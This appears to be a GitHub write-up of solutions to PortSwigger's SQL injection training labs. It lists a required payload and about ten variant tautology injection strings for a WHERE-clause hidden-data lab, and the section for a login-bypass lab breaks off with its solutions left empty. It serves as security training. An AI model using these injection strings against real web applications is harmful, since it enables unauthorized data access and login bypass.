 # SQL-injection
# Port Swigger SQL injection Lab Solutions <tag>

<h3>Retrieving hidden data</h3>

[1.Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)


<h6>1. Solutions</h6>
   1. `'+OR+1=1--` -> Required
   >The server can also respond for the following
   1. `'OR+'1'='1--`
   1. `'OR+'1'='1'--`
   1. `'OR+'1'--`
   1. `'OR+true--`
   1. `'OR+'a'='a'--`
   1. `/OR+1=1--`
   1. `)'OR+1=1-- `
   1. `""OR+1=1--`
   1. `)*OR+1=1--`
   
<h3>Subverting application logic</h3>

[2.Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

<h6>1. Solutions</h6>

  

